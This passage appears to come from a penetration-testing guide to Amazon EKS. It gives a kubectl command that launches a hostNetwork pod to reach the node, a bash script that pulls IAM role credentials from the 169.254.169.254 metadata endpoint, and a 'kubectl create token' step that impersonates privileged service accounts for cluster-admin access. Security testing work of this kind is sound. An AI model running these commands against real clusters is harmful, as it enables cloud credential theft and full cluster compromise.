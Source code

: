 To access the node metadata endpoint you need to:
- Be in a pod and have the metadata endpoint configured to at least 2 tcp hops. This is the most common misconfiguration as usually different pods in the cluster will require access to the metadata endpoint to not break and several companies just decide to allow access to the metadata endpoint from all the pods in the cluster.
- Be in a pod with `hostNetwork` enabled.
- Escape to the node and access the metadata endpoint directly.

(Note that the metadata endpoint is at 169.254.169.254 as always).

To **escape to the node** you can use the following command to run a pod with `hostNetwork` enabled:

```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```

### Steal IAM Role Token

Previously we have discussed how to **attach IAM Roles to Pods** or even how to **escape to the Node to steal the IAM Role** the instance has attached to it.

You can use the following script to **steal** your new hard worked **IAM role credentials**:

```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
    echo "IAM Role discovered: $IAM_ROLE_NAME"
    if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
        echo "Credentials:"
        curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
    fi
fi
```

### Privesc to cluster-admin

In summary: if it's possible to **access the EKS Node IAM role** from a pod, it's possible to **compromise the full kubernetes cluster**.

For more info check [this post](https://blog.calif.io/p/privilege-escalation-in-eks). As summary, the default IAM EKS role that is assigned to the EKS nodes by default is assigned the role `system:node` inside the cluster. This role is very interesting although is limited by the kubernetes [**Node Restrictions**](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/#noderestriction).

However, the node can always **generate tokens for service accounts** running in pods inside the node. So, if the node is running a pod with a privileged service account, the node can generate a token for that service account and use it to impersonate the service account like in:

```bash
kubectl --context=node1 create token -n ns1 sa-priv \
    --bound-object-kind=Pod \
    --bound-object-name=pod-priv \
    --bound-object-uid=7f7e741a-12f5-4148-91b4-4bc94f75998d
```
